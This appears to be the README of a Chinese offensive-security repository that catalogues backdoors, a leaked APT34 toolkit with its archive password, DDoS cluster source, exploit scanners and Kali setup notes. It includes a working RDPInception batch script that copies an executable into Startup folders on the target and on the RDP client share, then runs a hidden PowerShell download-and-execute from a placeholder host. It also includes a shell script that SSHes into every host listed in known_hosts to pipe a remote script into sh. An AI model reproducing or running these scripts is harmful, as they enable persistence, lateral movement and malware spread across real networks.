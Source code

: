 # 

~~北京、上海、重庆、新疆、西藏、云南、青海、湖北
81+500000
## siteserver cms 5.X vuln demo
SiteServer CMS remote download getshell `demo.zip`下载的后门文件
## 修改OpenSSH源代码记录用户详细操作日志
openssh*.tar.gz 修改后的文件编译安装即可，*.docx为修改说明。
+ https://www.zhoufengjie.cn/?p=385
+ https://www.zhoufengjie.cn/?p=174
## exin.zipEXIN挖矿木马之横向渗透分析
## run.js
Browser-based subdomain bruteforcing using DNS over HTTP(s) (DoH)
## dropbear
+ FAKE_ROOT: #define 强制伪"root"uid解析，即使目标系统无法解析用户名。
+ ALT_SHELL: #define 假冒root用户使用备用shell而不是/bin/sh登陆。
+ Server Master Password: 在dropbear命令行上指定-Y以指定要进行身份验证的“主”密码，当没有root用户时，对FAKE_ROOT很有用，因此没有root密码。
+ Forced Home Directory: 在dropbear命令行上指定-H，以使用户使用指定的主目录登录。当没有root用户时，对FAKE_ROOT很有用，因此没有root主目录。
```
wget https://matt.ucc.asn.au/dropbear/releases/dropbear-2018.76.tar.bz2
tar xjf dropbear-2018.76.tar.bz2
cd dropbear-2018.76
./configure --disable-zlib
make
make install
mkdir /etc/dropbear
/usr/local/bin/dropbearkey -t dss -f /etc/dropbear/dropbear_dss_host_key
/usr/local/bin/dropbearkey -t rsa -s 4096 -f /etc/dropbear/dropbear_rsa_host_key
/usr/local/sbin/dropbear -p 6666
```

## APT34-Leak

Pass: `vJrqJeJo2n005FF*`

+ Glimpse（Palo Alto Networks命名为BondUpdater的基于PowerShell的木马的新版本）
+ PoisonFrog（旧版BondUpdater）
+ HyperShell（Palo Alto Networks称之为TwoFace的网络外壳）
+ HighShell（另一个Web shell）
+ Fox Panel（网络钓鱼套件）
+ Webmask（DNS隧道，DNSpionage背后的主要工具）

## RDPInception
Bat To Exe转换器添加如下代码保存`windows.bat`
```
@echo off

echo Updating Windows ...

@echo off
timeout 1 >nul 2>&1

mkdir \\tsclient\c\temp >nul 2>&1
mkdir C:\temp >nul 2>&1

copy windows.exe C:\temp >nul 2>&1
copy windows.exe \\tsclient\c\temp >nul 2>&1

del /q %TEMP%\temp_00.txt >nul 2>&1

set dirs=dir /a:d /b /s C:\users\*Startup*
set dirs2=dir /a:d /b /s \\tsclient\c\users\*startup*

echo|%dirs%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"
echo|%dirs2%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"

for /F "tokens=*" %%a in (%TEMP%\temp_00.txt) DO (
	copy windows.exe "%%a" >nul 2>&1
	copy C:\temp\windows.exe "%%a" >nul 2>&1
	copy \\tsclient\c\temp\windows.exe "%%a" >nul 2>&1
)

del /q %TEMP%\temp_00.txt >nul 2>&1

powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x'))"
```
选项：

+ 工作目录：当前
+ EXE格式：32位windows隐藏
+ 嵌入式提取到：临时目录

转换bat保存为`windows.exe`,编辑`windows.bat`嵌入添加`windows.exe`重新转换为最终成品windows.exe

## kali_beef_start
Kali Beef Framework Start Script

## SambaCry漏洞扫描程序
存档的密码:`sambacry` <br>
参考:https://bi.zone/news/vulnerability-scanner-sambacry/

## WannaCry漏洞扫描程序MS17-010
存档的密码:`wannacry` <br>
参考:https://bi.zone/news/vulnerability-scanner-ms17-010/

## kali开启SSH服务，允许root登陆
```
systemctl enable ssh.service	//开启SSH服务开机启动
```
`nano /etc/ssh/sshd_config`允许root登陆
```
#PermitRootLogin prohibit-password
PermitRootLogin yes
#PasswordAuthentication yes
PasswordAuthentication yes
```
## kali设置固定ip
1.首先把kali虚拟机的**网络适配器**更改为**桥接模式**直连物理网络。<br>
2.查看自己主机的（是自己真实电脑的不是虚拟机）ip地址，网关，网段。<br>
3.修改`nano /etc/network/interfaces`文件，添加如下内容
```
auto eth0	//自动启动eth0网卡
iface eth0 inet static	//静态获取IP
address x.x.x.x	//固定ip地址，根据实际情况填写
netmask x.x.x.x	//子网掩码，根据实际情况填写
gateway x.x.x.x	//网关，根据实际情况填写
```
4.修改`nano /etc/resolv.conf`文件添加dns
```
nameserver 114.114.114.114
nameserver 8.8.8.8
```
5.重启系统或`/etc/init.d/networking restart`重启网络服务

## Puzlbox PHP模糊测试工具。
它通过执行动态程序分析来扫描几个不同的漏洞.目前正在进行以下测试：

+ 任意命令执行
+ 任意文件读/写/更改/重命名/删除
+ 本地文件包含（LFI）
+ 任意PHP执行
+ SQL注入
+ 反射的跨站点脚本（XSS）

对于每个测试，将特定有效负载（伪造请求）发送到Web应用程序，并分析来自服务器的响应。根据结果​​（HTTP响应代码，错误，......），测试将被解释为正面（发现潜在的漏洞）或负面。所有肯定测试都出现在生成的报告中，并带有已发送的有效负载

puzlbox [-s Server（默认本地主机）] [-m扫描模式（默认CFLPSX）] [绝对Web根目录] [-n No Unhook] [应用程序路径（以逗号分隔）]

## linux ddos集群源码

存档的密码:`123` <br>linux集群源码_2.7z 

## XSSHunter-Setup安装教程
`XSSHunter-Setup`安装教程文章

## ssh批量执行命令
```
#!/bin/sh
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin

if [ -f /root/.ssh/known_hosts ]; then
  for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" /root/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "curl -fsSL http://x.x.x.x/z0.txt | sh";done
fi

for file in /home/*
do
    if test -d $file; then
        if [ -f $file/.ssh/known_hosts ]; then
            for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" $file/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "curl -fsSL http://x.x.x.x/z0.txt | sh";done
        fi
    fi
done
```
